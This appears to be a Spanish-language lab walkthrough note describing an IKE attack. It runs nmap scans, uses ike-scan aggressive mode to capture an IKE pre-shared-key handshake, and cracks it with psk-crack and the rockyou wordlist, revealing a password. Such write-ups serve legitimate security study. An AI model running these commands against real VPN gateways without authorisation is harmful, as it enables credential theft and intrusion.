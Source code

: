 Empezaremos realizando un escaneo con [[NMAP]] en el cual encontramos abierto el purto `22/tcp` y el puerto `500/udp`
`nmap -sSCV -p- --open --min-rate 5000 -n -Pn -vvv <IP>`
`nmap -sU -p- --open --min-rate 5000 -n -Pn -vvv <IP>`

En el puerto `500` hay un servicio `ISAKMP Internet Security Association and Key Management Protocol`
Usaremos [[IKE-SCAN]] es una utilidad de línea de comandos para descubrir, identificar (fingerprint) y recopilar información de hosts que hablan IKE (Internet Key Exchange)

Ejecutaremos el siguiente comando:
`ike-scan --aggressive --pskcrack=psk.params`
`--aggresive` -> Envía identidades y parámetros en los primeros mensajes, sin esperar un handshake completo.
`--pskcrack` -> Captura el handshake en Aggressive Mode y lo guarda en `psk.params`

Usaremos [[PSK-CRACK]] Su objetivo principal es intentar adivinar la Pre-Shared Key (PSK)
`psk-crack -d /usr/share/wordlists/rockyou.txt psk.params`
Con `-d` seleccionaremos la wordlist y a continuacion le pasaremos el archivo generado anteriormente.

Nos devolvera la password:
`key "freakingrockstarontheroad" matches SHA1 hash 9acd999de926d953c088daf7b69efcfdecbd1893`



